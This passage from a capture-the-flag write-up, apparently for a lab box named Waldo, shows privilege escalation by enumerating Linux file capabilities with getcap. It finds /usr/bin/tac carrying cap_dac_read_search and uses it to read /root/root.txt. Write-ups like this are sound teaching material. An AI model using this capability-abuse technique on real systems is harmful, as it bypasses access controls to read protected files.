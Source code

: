 ```
monitor@waldo:~/app-dev$ ./logMonitor -a
Cannot open file

monitor@waldo:~/app-dev/v0.1$ ./logMonitor-0.1 -a
Aug  4 21:17:01 waldo CRON[938]: pam_unix(cron:session): session opened for user root by (uid=0)
Aug  4 21:17:01 waldo CRON[938]: pam_unix(cron:session): session closed for user root
Aug  4 22:00:37 waldo sshd[980]: Accepted publickey for monitor from 127.0.0.1 port 57202 ssh2: RSA SHA256:Kl+zDjbDx4fQ7xVvGg6V3RhjezqB1gfe2kWqm1AMD0c
[...]

monitor@waldo:~/app-dev$ ls -l logMonitor
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 08:10 logMonitor
monitor@waldo:~/app-dev$ ls -l v0.1/logMonitor-0.1 
-r-xr-x--- 1 app-dev monitor 13706 May  3 16:50 v0.1/logMonitor-0.1
```

So, both files are owned by the same user and do not have the SUID bit set... Why is the v0.1 file able to read log files then?

Let's look at file capabilities:

```
monitor@waldo:~$ getcap -r *
app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

The `cap_dac_read_search` capability is used to `Bypass file read permission checks and directory read and execute permission checks`. So basically, if a file has this permission it can read anything.

We can't use this file to read anything other than log files but maybe there are other similar files on the host:

```
monitor@waldo:~$ getcap -r /* 2>/dev/null
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
/usr/bin/tac = cap_dac_read_search+ei
```

What is this `tac` binary?

```
monitor@waldo:~$ /usr/bin/tac --help
Usage: /usr/bin/tac [OPTION]... [FILE]...
Write each FILE to standard output, last line first.
```

Ok, we can use this to read files, let's grab root.txt and finish this box:

```
monitor@waldo:~$ tac /root/root.txt
8fb67c<redacted>
```